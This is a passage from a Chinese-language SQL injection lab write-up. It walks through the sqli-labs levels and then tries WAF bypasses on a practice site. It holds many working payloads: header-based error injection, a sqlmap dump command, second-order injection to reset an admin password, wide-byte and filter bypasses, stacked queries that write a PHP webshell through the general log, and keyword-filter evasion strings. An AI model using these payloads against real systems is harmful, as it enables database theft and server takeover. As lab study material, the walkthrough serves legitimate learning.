    $update="UPDATE users SET password = '$passwd' WHERE username='$row1'";
	if error
        print_r(mysql_error());
```

`uname`被过滤了，只能考虑update这里注入，使用报错注入即可。

#### 3.2.18 Less-18

```php
$uagent = $_SERVER['HTTP_USER_AGENT'];
$IP = $_SERVER['REMOTE_ADDR'];
//uname和passwd被过滤
$uname = check_input($_POST['uname']);
$passwd = check_input($_POST['passwd']);

$sql="SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";

if true
    $insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
	echo 'Your User Agent is: ' .$uagent;
	print_r(mysql_error());	
else 
    print_r(mysql_error());
```

这里`uname`和`passwd`被过滤了，因此只能在insert语句注入。

- `$_SERVER['HTTP_CLIENT_IP']` 客户端可以伪造。
- `$_SERVER['HTTP_X_FORWARDED_FOR']`，客户端可以伪造。
- `$_SERVER['REMOTE_ADDR']`，客户端不能伪造。

所以这里只能在`User-Agent`注入。

```sql
User-Agent: 1'and (select 1 from (select count(*),concat((select concat(username,password) from users limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) and '1'='1
```



#### 3.2.19 Less-19

```php
$uagent = $_SERVER['HTTP_REFERER'];
$IP = $_SERVER['REMOTE_ADDR'];
//uname和passwd被过滤
$uname = check_input($_POST['uname']);
$passwd = check_input($_POST['passwd']);

$sql="SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";

if true
    $insert="INSERT INTO `security`.`referers` (`referer`, `ip_address`) VALUES ('$uagent', '$IP')";
	echo 'Your Referer is: ' .$uagent;
	print_r(mysql_error());	
else 
    print_r(mysql_error());
```

`User-Agent`改为了`Referer`。

#### 3.2.20 Less-20

```php
if(!isset($_COOKIE['uname']))
    //过滤uname和passwd
    $uname = check_input($_POST['uname']);
    $passwd = check_input($_POST['passwd']);

    $sql="SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";
    $cookee = $row1['username'];
    if true
        setcookie('uname', $cookee, time()+3600);
    else:
        print_r(mysql_error());
else:
    if(!isset($_POST['submit']))
        $cookee = $_COOKIE['uname'];

        $sql="SELECT * FROM users WHERE username='$cookee' LIMIT 0,1";
        if (!$result)
            print_r(mysql_error());
        if($row)
            "输出查询的信息"
    else:
        setcookie('uname', $row1['username'], time()-3600);
?>
```

就是从`Cookie`中读取`uname`值，产生注入。

### 3.3 Less21-37

#### 3.3.1 Less-21

```php
$cookee = base64_decode($cookee);
$sql="SELECT * FROM users WHERE username=('$cookee') LIMIT 0,1";
```

只节选了相关代码，其余与`Less-20`大差不差，主要是多了一个base64编码，这里可以用sqlmap脚本。

```bash
$ python sqlmap.py -u http://127.0.0.1:8888/Less-21/ --cookie="uname=*" --tamper="base64encode" -v 3 -D security -T users --dump --batch
```



#### 3.3.2 Less-22

```php
$cookee1 = '"'. $cookee. '"';    
$sql="SELECT * FROM users WHERE username=$cookee1 LIMIT 0,1";
```

闭合方式改变

#### 3.3.3 Less-23

```php
$id=$_GET['id'];

$reg = "/#/";
$reg1 = "/--/";
$replace = "";
$id = preg_replace($reg, $replace, $id);
$id = preg_replace($reg1, $replace, $id);

$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";

if true
    "查询结果"
else:
    print_r(mysql_error());
```

过滤了注释符，可以使用闭合方式。

#### 3.3.4 Less-24

`login_create.php`

```php
$username=  mysql_escape_string($_POST['username']) ;
$pass= mysql_escape_string($_POST['password']);
$re_pass= mysql_escape_string($_POST['re_password']);

$sql = "select count(*) from users where username='$username'";

if ($pass==$re_pass)
  $sql = "insert into users ( username, password) values(\"$username\", \"$pass\")";
```

`login.php`

```php
$username = mysql_real_escape_string($_POST["login_user"]);
$password = mysql_real_escape_string($_POST["login_password"]);
$sql = "SELECT * FROM users WHERE username='$username' and password='$password'";
```

`pass_change.php`

```php
$username= $_SESSION["username"];
$curr_pass= mysql_real_escape_string($_POST['current_password']);
$pass= mysql_real_escape_string($_POST['password']);
$re_pass= mysql_real_escape_string($_POST['re_password']);

if($pass==$re_pass)
    $sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
```

这里大部分都被转义了，唯一可利用的地方在最后的`update`语句中的`username`，这里需要利用二次注入，即将构造的sql语句插入数据库中，在其被调用时触发。

比如数据库有`username`值为`admin'#`，被拼接进`update`语句就会变成：

```sql
UPDATE users SET PASSWORD='$pass' where username='admin'#' and password='$curr_pass'
```

那么就直接修改了`admin`用户的密码。

先注册一个名为`admin'#`的用户



然后登录后修改密码



查看数据库发现`admin`用户密码被成功修改了

```bash
mysql> select * from security.users;
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
|  1 | Dumb     | Dumb       |
|  2 | Angelina | I-kill-you |
|  3 | Dummy    | p@ssword   |
|  4 | secure   | crappy     |
|  5 | stupid   | stupidity  |
|  6 | superman | genious    |
|  7 | batman   | mob!le     |
|  8 | admin    | 1234       |
|  9 | admin1   | admin1     |
| 10 | admin2   | admin2     |
| 11 | admin3   | admin3     |
| 12 | dhakkan  | dumbo      |
| 14 | admin4   | admin4     |
| 15 | admin'#  | 123        |
+----+----------+------------+
```

#### 3.3.5 Less-25

接下来很多是绕过过滤的，所以只考虑绕过过滤的部分。

```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";

$id= preg_replace('/or/i',"", $id);    
$id= preg_replace('/AND/i',"", $id);
```

双写绕过`oorr`，符号替换`or`换成`||`。

#### 3.3.6 Less-25a

无区别。

#### 3.3.7 Less-26

```php
$id= preg_replace('/or/i',"", $id);           
$id= preg_replace('/and/i',"", $id);     
$id= preg_replace('/[\/\*]/',"", $id);     
$id= preg_replace('/[--]/',"", $id);    
$id= preg_replace('/[#]/',"", $id);       
$id= preg_replace('/[\s]/',"", $id);     
$id= preg_replace('/[\/\\\\]/',"", $id);    
```

`or`和`and`使用双写或者`||``&&`替换。

过滤注释使用闭合绕过。

空格字符绕过

`%a0`：空格

`%09`：TAB键（水平）

`%0a`：新建一行

`%0c`：新的一页

`%0d`：return功能

`%0b`：TAB键（垂直）

`%00`：空字符

#### 3.3.8 Less-26a

无区别。

#### 3.3.9 Less-27

```php
$id= preg_replace('/[\/\*]/',"", $id);
$id= preg_replace('/[--]/',"", $id);
$id= preg_replace('/[#]/',"", $id);
$id= preg_replace('/[ +]/',"", $id);
$id= preg_replace('/select/m',"", $id);
$id= preg_replace('/select/s',"", $id);
$id= preg_replace('/Select/s',"", $id);
$id= preg_replace('/SELECT/s',"", $id);
$id= preg_replace('/union/s',"", $id);
$id= preg_replace('/Union/s',"", $id);
$id= preg_replace('/UNION/s',"", $id);
```

`select`和`union`使用大小写绕过和嵌套绕过即可。

#### 3.3.10 Less-27a

无区别。

#### 3.3.11 Less-28

```php
$id= preg_replace('/[\/\*]/',"", $id);
$id= preg_replace('/[--]/',"", $id);
$id= preg_replace('/[#]/',"", $id);
$id= preg_replace('/[ +]/',"", $id);.
$id= preg_replace('/union\s+select/i',"", $id);
```

不能大小写绕过，嵌套绕过即可。

#### 3.3.12 Less-28a

无区别。

#### 3.3.13 Less-29

这里主要难点在`login.php`而不是`index.php`中。

```php
//提取id
function java_implimentation($query_string)
{
	$q_s = $query_string;
	$qs_array= explode("&",$q_s);
	foreach($qs_array as $key => $value)
	{
		$val=substr($value,0,2);
		if($val=="id")
		{
			$id_value=substr($value,3,30); 
			return $id_value;
			echo "<br>";
			break;
		}
	}
}
$qs = $_SERVER['QUERY_STRING'];
$hint=$qs;
$id1=java_implimentation($qs);
$id=$_GET['id'];
//id只能为数字
whitelist($id1);
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

这里可以构造两个`id`，因为`java_implimentation()`函数只会拿到第一个`id`去检测，从而使得后面`id`绕过检测。

这里根据语言特性绕过可以看本文前面部分。

#### 3.3.14 Less-30

没区别。

#### 3.3.15 Less-31

没区别。

#### 3.3.16 Less-32

```php
function check_addslashes($string)
{
    $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);  
    $string = preg_replace('/\'/i', '\\\'', $string);
    $string = preg_replace('/\"/', "\\\"", $string);      
    return $string;
}

$id=check_addslashes($_GET['id']);

$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

宽字节注入，`%df%5c`被当做一个汉字，使得`'`逃逸。

使用`\`转义`\`，如`\\'`，第二个`\`被转义，使`'`出来。

将 utf-8 转换为 utf-16 或 utf-32，例如将 `'` 转为 utf-16 为`�`

```bash
$ echo \'|iconv -f utf-8 -t utf-16
��'
```

> 这里我的理解是，�在URL编码后为`%EF%BF%BD`，MySQL 在使用 GBK 编码的时候，`%EF%BF`被当做一个汉字，`%BD`与`%5c`也就是`\`被当做一个汉字，因此单引号逃逸出来。

可以让`'`逃逸出来

```sql
?id=1�'or 1%23
```



#### 3.3.17 Less-33

没区别。

#### 3.3.18 Less-34

没区别。

#### 3.3.19 Less-35

没区别。

#### 3.3.20 Less-36

没区别

#### 3.3.21 Less-37

没区别。

### 3.4 Less-38-53

> 下面无特殊利用的就当做无区别了。

#### 3.4.1 Less-38

```php
$id=$_GET['id'];

$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
if (mysqli_multi_query($con1, $sql)):
    "查询结果"
else:
    print_r(mysqli_error($con1));
```

产生堆叠的原因在于`mysqli_multi_query()`函数，它会执行一个或用分号隔开的多个SQL语句。

堆叠注入可以直接写马GetShell。

这里先查看mysql配置

```bash
mysql> show variables like 'general%';
+------------------+---------------------------------+
| Variable_name    | Value                           |
+------------------+---------------------------------+
| general_log      | OFF                             |
| general_log_file | /var/lib/mysql/e783195a8830.log |
+------------------+---------------------------------+
```

可以看见默认没有开启，首先手动开启。

```sql
?id=1';set global general_log="ON";set global general_log_file='/var/www/html/Less-38/shell.php'%23
```

```bash
mysql> show variables like 'general%';
+------------------+---------------------------------+
| Variable_name    | Value                           |
+------------------+---------------------------------+
| general_log      | ON                              |
| general_log_file | /var/www/html/Less-38/shell.php |
+------------------+---------------------------------+
```

然后就可以写入php代码了

```sql
?id=1';select '<?php phpinfo();?>'%23
```

查看文件

```bash
$ cat /var/www/html/Less-38/shell.php
250311 14:32:51    10 Connect   root@localhost on security
                   10 Init DB   security
                   10 Query     SELECT * FROM users WHERE id='1';select '<?php phpinfo();?>'#' LIMIT 0,1
```

成功写入，但是可能是权限的问题，没有成功执行。

#### 3.4.2 Less-39

无区别

#### 3.4.3 Less-40

无区别

#### 3.4.4 Less-41

无区别

#### 3.4.5 Less-42

类似于`Less-24`，少了一些过滤。

#### 3.4.6 Less-43

无区别。

#### 3.4.7 Less-44

无区别。

#### 3.4.8 Less-45

无区别。

#### 3.4.9 Less-46

```php
$id=$_GET['sort'];

$sql = "SELECT * FROM users ORDER BY $id";

if true
    "查询结果"
else：
    print_r(mysql_error());
```

`order by`注入，具体看本文order by注入部分。

#### 3.4.10 Less-47

无区别。

#### 3.4.11 Less-48

无区别。

#### 3.4.12 Less-49

无区别。

#### 3.4.13 Less-50

无区别。

#### 3.4.14 Less-51

无区别。

#### 3.4.15 Less-52

无区别。

#### 3.4.16 Less-53

无区别。

### 3.5 Less54-65

#### 3.5.1 Less-54

```php
$times= 10;

if(isset($_POST['reset']))
    setcookie('challenge', ' ', time() - 3600000);

else:
    if(isset($_COOKIE['challenge']))
        $sessid=$_COOKIE['challenge'];
    else:
        $expire = time()+60*60*24*30;
        $hash = data($table,$col);
        setcookie("challenge", $hash, $expire);
    if $_GET['id']:
        $sql="SELECT * FROM security.users WHERE id='$id' LIMIT 0,1";
    if true
        "查询结果"
    else：
       
$key = addslashes($_POST['key']);
$key = mysql_real_escape_string($key);
$sql="SELECT 1 FROM $table WHERE $col1= '$key'";
```

十次以内查出结果

判断闭合

```sql
?id=1'
?id=1'%23
```

判断字段数

```sql
?id=1'order by 3%23
?id=1'order by 4%23
```

查数据库名

```sql
?id=-1'union select 1,2,(select group_concat(schema_name) from information_schema.schemata)%23
information_schema,challenges,mysql,performance_schema,security
```

查表名

```sql
?id=-1'union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='challenges')%23
1KBD9AIPC9
```

查字段名

```sql
?id=-1'union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='1KBD9AIPC9')%23
id,sessid,secret_2TF1,tryy
```

查key值

```sql
?id=-1'union select 1,2,(select concat(secret_2TF1) from challenges.1KBD9AIPC9)%23
vJWlm4ld9mZEZN2o7n59t4A8
```

总共八次。

#### 3.5.2 Less-55

无区别。

#### 3.5.3 Less-56

无区别。

#### 3.5.4 Less-57

无区别。

#### 3.5.5 Less-58

```php
$sql="SELECT * FROM security.users WHERE id='$id' LIMIT 0,1";
if true
    echo 'Your Login name : '. $unames[$row['id']];
    echo 'Your Password : ' .$pass[$row['id']];
else
    print_r(mysql_error());
```

联合查询没结果输出，改为报错注入。

#### 3.5.6 Less-59

无区别。

#### 3.5.7 Less-60

无区别。

#### 3.5.8 Less-61

无区别。

#### 3.5.9 Less-62

```php
$sql="SELECT * FROM security.users WHERE id=('$id') LIMIT 0,1";
if true
    echo 'Your Login name : '. $unames[$row['id']];
    echo 'Your Password : ' .$pass[$row['id']];
else
    //print_r(mysql_error());
```

不能报错注入了，改为布尔盲注或者时间盲注即可

#### 3.5.9 Less-63

无区别。

#### 3.5.10 Less-64

无区别。

#### 3.5.1 Less-65

无区别。

### 3.6 总结

终于是刷完了，总体来说把每种注入方式都练习了个遍，并学习了一些绕过手法，整个过程除了`Less-1`跟着大佬把`sqlmap`使用熟悉了一下，其余均为手注，加强自己的能力，尽量不变成离了脚本就活不了的脚本小子（）。但是其实还有许多利用手法没有学到，以后遇到就在本文填补，避免做完就忘了。


## 4 SQL注入绕过小实战

```sql
?name=vince'
# You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''vince''' at line 1
```

可以看见是存在sql注入的

```sql
?name=vince'and+1=1--+
```



```sql
?name=vince'and+0x2!=1--+
# your uid:1
your email is: vince@pikachu.com
```

成功绕过

```sql
?name=vince'and+substr(user()+from+1+for+1)--+
```

被拦截，尝试使用布尔绕过

```bash
?name=vince'and+0x31!=if((substr((select+password+from+`users`+limit+1)from+1+for+1)='a'),0x31,0)--+  # 回显
?name=vince'and+0x31!=if((substr((select+password+from+`users`+limit+1)from+1+for+1)='e'),0x31,0)--+  # 不回显
```

尝试联合注入

```sql
?name=vince'order+by+1--+ # 被拦截
?name=vince'order/**/by+1--+ # 被拦截
?name=vince'order/*//*/by+1--+  # 成功绕过

?name=vince'order/*//*/by+2--+	# 回显
?name=vince'order/*//*/by+3--+	# 无回显
```

因此这里只有两个字段

```sql
?name=vince'union+select+1,2--+	# 被拦截
?name=vince'union/*//*/select+1,2--+	# 被拦截
?name=vince'union/*////*/select+1,2--+	# 被拦截
?name=vince'union/*//--+//*/select+1,2--+	# 成功绕过
```

查数据库名

```sql
?name=vince'union/*//--+//*/select+1,(select+concat(schema_name)+from+information_schema.schemata)--+	# 被拦截
?name=vince'union/*//--+//*/select+1,(database/*//--+//*/())--+	# 成功绕过
# myp1
```

查表名

```sql
?name=vince'union/*//--+//*/select+1,(select+concat(table_name)+from+information_schema.tables+where+table_schema=`myp1`)--+	# 被拦截
```

经过测试过滤了`information_schema`，尝试使用`sys.schema_auto_increment_columns`、`mysql.innodb_table_stats`和`mysql.innodb_table_index`都绕过无果。（其实绕过了，但是查询权限不足`SELECT command denied to user 'myp1'@'localhost' for table 'x$schema_table_statistics_with_buffer'`）

尝试双写和编码都绕过了，也没权限，应该确实没办法了
